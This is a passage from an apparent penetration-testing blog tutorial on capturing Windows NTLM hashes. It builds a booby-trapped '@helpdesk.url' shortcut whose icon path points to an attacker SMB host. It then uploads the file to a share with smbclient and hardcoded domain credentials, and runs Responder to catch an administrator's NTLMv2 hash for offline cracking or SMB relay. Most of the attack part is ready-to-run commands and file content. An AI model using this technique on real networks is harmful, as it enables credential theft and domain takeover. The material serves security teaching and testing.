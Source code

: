 To execute the attack, we should begin by creating a payload shortcut file first.

`helpdesk.lnk`
```
└─$ nano helpdesk.lnk

└─$ cat helpdesk.lnk              
[InternetShortcut]
URL=loremipsumdolorsitamet
WorkingDirectory=loremipsumdolorsitamet
IconFile=\\10.10.24.100\%USERNAME%.icon
IconIndex=1
```

Keep in mind, that newlines on Windows systems are made of `\x0d\x0a` (`\r\n`), not just `\x0A` (`\n`) like on Linux.
```
└─$ perl -pi -e 's/\n/\r\n/' helpdesk.lnk
```
![](http://news.baycode.eu/wp-content/uploads/2023/11/2-2.png)

Now let's put the file on the share, effectively setting up the trap. The file must start with `@` sign, and must end with `.url`.

```
└─$ mv helpdesk.lnk @helpdesk.url
└─$ smbclient \\\\10.10.24.101\\printing -U democorp.com/j.arnold%F4ll2023!
put @helpdesk.url
ls
```

![](http://news.baycode.eu/wp-content/uploads/2023/11/3-2.png)

Now we can capture the hashes when someone opens the share, without hijacking the SMB service on the target share host. In order to fetch the icon, the user will need to authenticate with us.

```
responder -I lo -A
```

![](http://news.baycode.eu/wp-content/uploads/2023/11/4-2.png)

### Hash captured - the user has stepped on the mine

Isn't it interesting? The domain administrator opened the legitimate `printing` share, and we've got their NTLMv2 SSP hash. We can crack this hash offline in order to obtain his password, though it takes longer than NTLMv1, and we can't do Pass-The-Hash technique here. Alternatively, we can set up the SMB relay, which we will do next.

This exploit only needed us to compromise one machine for SMB hijacking, with the prerequisite of infiltrating the internal network externally, and hijacking one of machines SMB service just as described in the previous chapter. The attack had to occur within the local network; if we were an internal threat, we wouldn't have required any compromised machines to tunnel the traffic. 

A low-privileged domain user is sufficient to breach the non-Windows Server machines using the SMB relay method, and to breach a Domain Controller if we cracked this hash.
